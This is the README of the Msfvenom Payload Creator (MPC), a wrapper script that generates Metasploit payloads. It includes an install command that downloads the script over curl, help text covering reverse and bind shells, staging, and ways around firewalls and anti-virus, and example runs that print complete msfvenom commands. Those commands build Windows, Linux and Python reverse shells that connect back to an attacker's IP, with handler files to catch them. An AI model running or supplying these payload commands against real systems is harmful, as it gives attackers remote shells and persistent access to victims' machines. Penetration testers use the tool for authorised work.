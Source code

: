 A **quick** way to generate various "basic" Meterpreter payloads via msfvenom (part of the Metasploit framework).

![Msfvenom Payload Creator (MPC)](https://i.imgur.com/JwSYBRZ.png)

- - -

## About

Msfvenom Payload Creator (MPC) is a wrapper to generate multiple types of payloads, based on users choice. The idea is to be as **simple as possible** (**only requiring one input**) to produce their payload.

**Fully automating** msfvenom & Metasploit is the end goal _(well as to be be able to automate MPC itself)_.
The rest is to make the user's life as **easy as possible** (e.g. **IP selection menu**, **msfconsole resource file/commands**, **batch payload production** and able to enter **any argument in any order** _(in various formats/patterns)_).

The only necessary input from the user should be **defining the payload** they want by either the **platform** (e.g. `windows`), or the **file extension** they wish the payload to have (e.g. `exe`).

* Can't remember your IP for a interface? Don't sweat it, just use the interface name: `eth0`.
* Don't know what your external IP is? MPC will discover it: `wan`.
* Want to generate one of each payload? No issue! Try: `loop`.
* Want to mass create payloads? Everything? Or to filter your select? ..Either way, its not a problem. Try: `batch` (for everything), `batch msf` (for every Meterpreter option), `batch staged` (for every staged payload), or `batch cmd stageless` (for every stageless command prompt)!

_Note: This will **not** try to bypass any anti-virus solutions._

## Install

* Designed for **Kali Linux v1.1.0a+** & **Metasploit v4.11+** _(nothing else has been tested)_.

```
curl -k -L "https://raw.githubusercontent.com/g0tmi1k/mpc/master/mpc.sh" > /usr/bin/mpc
chmod +x /usr/bin/mpc
mpc
```

## Help

``` bash
root@kali:~# mpc -h -v
 [*] Msfvenom Payload Creator (MPC v1.3)

 [i] /usr/bin/mpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
 [i]   Example: /usr/bin/mpc windows 192.168.1.10        # Windows & manual IP.
 [i]            /usr/bin/mpc elf eth0 4444               # Linux, eth0's IP & manual port.
 [i]            /usr/bin/mpc stageless cmd py verbose    # Python, stageless command prompt.
 [i]            /usr/bin/mpc loop eth1                   # A payload for every type, using eth1's IP.
 [i]            /usr/bin/mpc msf batch wan               # All possible Meterpreter payloads, using WAN IP.
 [i]            /usr/bin/mpc help verbose                # This help screen, with even more information.

 [i] <TYPE>:
 [i]   + ASP
 [i]   + ASPX
 [i]   + Bash [.sh]
 [i]   + Java [.jsp]
 [i]   + Linux [.elf]
 [i]   + OSX [.macho]
 [i]   + Perl [.pl]
 [i]   + PHP
 [i]   + Powershell [.ps1]
 [i]   + Python [.py]
 [i]   + Tomcat [.war]
 [i]   + Windows [.exe]

 [i] Rather than putting <DOMAIN/IP>, you can do a interface and MPC will detect that IP address.
 [i] Missing <DOMAIN/IP> will default to the IP menu.

 [i] Missing <PORT> will default to 443.

 [i] <CMD> is a standard/native command prompt/terminal to interactive with.
 [i] <MSF> is a custom cross platform Meterpreter shell, gaining the full power of Metasploit.
 [i] Missing <CMD/MSF> will default to <MSF> where possible.
 [i]   Note: Metasploit doesn't (yet!) support <CMD/MSF> for every <TYPE> format.
 [i] <CMD> payloads are generally smaller than <MSF> and easier to bypass EMET. Limit Metasploit post modules/scripts support.
 [i] <MSF> payloads are generally much larger than <CMD>, as it comes with more features.

 [i] <BIND> opens a port on the target side, and the attacker connects to them. Commonly blocked with ingress firewalls rules on the target.
 [i] <REVERSE> makes the target connect back to the attacker. The attacker needs an open port. Blocked with engress firewalls rules on the target.
 [i] Missing <BIND/REVERSE> will default to <REVERSE>.
 [i] <BIND> allows for the attacker to connect whenever they wish. <REVERSE> needs to the target to be repeatedly connecting back to permanent maintain access.

 [i] <STAGED> splits the payload into parts, making it smaller but dependent on Metasploit.
 [i] <STAGELESS> is the complete standalone payload. More 'stable' than <STAGED>.
 [i] Missing <STAGED/STAGELESS> will default to <STAGED> where possible.
 [i]   Note: Metasploit doesn't (yet!) support <STAGED/STAGELESS> for every <TYPE> format.
 [i] <STAGED> are 'better' in low-bandwidth/high-latency environments.
 [i] <STAGELESS> are seen as 'stealthier' when bypassing Anti-Virus protections. <STAGED> may work 'better' with IDS/IPS.
 [i] More information: https://community.rapid7.com/community/metasploit/blog/2015/03/25/stageless-meterpreter-payloads
 [i]                   https://www.offensive-security.com/metasploit-unleashed/payload-types/
 [i]                   https://www.offensive-security.com/metasploit-unleashed/payloads/

 [i] <TCP> is the standard method to connecting back. This is the most compatible with TYPES as its RAW. Can be easily detected on IDSs.
 [i] <HTTP> makes the communication appear to be HTTP traffic (unencrypted). Helpful for packet inspection, which limit port access on protocol - e.g. TCP 80.
 [i] <HTTPS> makes the communication appear to be (encrypted) HTTP traffic using as SSL. Helpful for packet inspection, which limit port access on protocol - e.g. TCP 443.
 [i] <FIND_PORT> will attempt every port on the target machine, to find a way out. Useful with stick ingress/engress firewall rules. Will switch to 'allports' based on <TYPE>.
 [i] Missing <TCP/HTTP/HTTPS/FIND_PORT> will default to <TCP>.
 [i] By altering the traffic, such as <HTTP> and even more <HTTPS>, it will slow down the communication & increase the payload size.
 [i] More information: https://community.rapid7.com/community/metasploit/blog/2011/06/29/meterpreter-httphttps-communication

 [i] <BATCH> will generate as many combinations as possible: <TYPE>, <CMD + MSF>, <BIND + REVERSE>, <STAGED + STAGLESS> & <TCP + HTTP + HTTPS + FIND_PORT>
 [i] <LOOP> will just create one of each <TYPE>.

 [i] <VERBOSE> will display more information.
root@kali:~#
```

## Example \#1 (Windows, Fully Automated With IP)

```bash
root@kali:~# mpc windows 192.168.1.10
 [*] Msfvenom Payload Creator (MPC v1.3)
 [i]   IP: 192.168.1.10
 [i] PORT: 443
 [i] TYPE: windows (windows/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p windows/meterpreter/reverse_tcp -f exe --platform windows -a x86 -e generic/none LHOST=192.168.1.10 LPORT=443 > /root/windows-meterpreter-staged-reverse-tcp-443.exe
 [i] File (/root/windows-meterpreter-staged-reverse-tcp-443.exe) already exists. Overwriting...
 [i] windows meterpreter created: '/root/windows-meterpreter-staged-reverse-tcp-443.exe'
 [i] MSF handler file: '/root/windows-meterpreter-staged-reverse-tcp-443-exe.rc'   (msfconsole -q -r /root/windows-meterpreter-staged-reverse-tcp-443-exe.rc)
 [?] Quick web server for file transfer?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```

## Example \#2 (Linux Format, Fully Automated With Interface and Port)

```bash
root@kali:~# ./mpc elf eth0 4444
 [*] Msfvenom Payload Creator (MPC v1.3)
 [i]   IP: 192.168.103.238
 [i] PORT: 4444
 [i] TYPE: linux (linux/x86/shell/reverse_tcp)
 [i]  CMD: msfvenom -p linux/x86/shell/reverse_tcp -f elf --platform linux -a x86 -e generic/none LHOST=192.168.103.238 LPORT=4444 > /root/linux-shell-staged-reverse-tcp-4444.elf
 [i] linux shell created: '/root/linux-shell-staged-reverse-tcp-4444.elf'
 [i] MSF handler file: '/root/linux-shell-staged-reverse-tcp-4444-elf.rc'   (msfconsole -q -r /root/linux-shell-staged-reverse-tcp-4444-elf.rc)
 [?] Quick web server for file transfer?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```

## Example \#3 (Python Format, Stageless Command Prompt Using Interactive IP Menu)

```bash
root@kali:~# mpc stageless cmd py verbose
 [*] Msfvenom Payload Creator (MPC v1.3)

 [i] Use which interface/IP address?:
 [i]   1.) eth0 - 192.168.103.238
 [i]   2.) eth1 - 192.168.155.175
 [i]   3.) tap0 - 10.10.100.63
 [i]   4.) lo - 127.0.0.1
 [i]   5.) wan - xx.xx.xx.xx
 [?] Select 1-5, interface or IP address: 3

 [i]        IP: 10.10.100.63
 [i]      PORT: 443
 [i]      TYPE: python (python/shell_reverse_tcp)
 [i]     SHELL: shell
 [i] DIRECTION: reverse
 [i]     STAGE: stageless
 [i]    METHOD: tcp
 [i]       CMD: msfvenom -p python/shell_reverse_tcp -f raw --platform python -e generic/none -a python LHOST=10.10.100.63 LPORT=443 > /root/python-shell-stageless-reverse-tcp-443.py
 [i] python shell created: '/root/python-shell-stageless-reverse-tcp-443.py'
 [i] File: ASCII text, with very long lines, with no line terminators
 [i] Size: 4.0K
 [i]  MD5: 53452eafafe21bff94e6c4621525165b
 [i] SHA1: 18641444f084c5fe7e198c29bf705a68b15c2cc9
 [i] MSF handler file: '/root/python-shell-stageless-reverse-tcp-443-py.rc'   (msfconsole -q -r /root/python-shell-stageless-reverse-tcp-443-py.rc)
 [?] Quick web server for file transfer?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```
_Note: Removed WAN IP._

![Examples](https://i.imgur.com/r9Qmzda.png)

- - -

## To-Do List

* Shellcode generation
* x64 payloads
* IPv6 support
* Look into using OS scripting more _(`powershell_bind_tcp` & `bind_perl` etc)_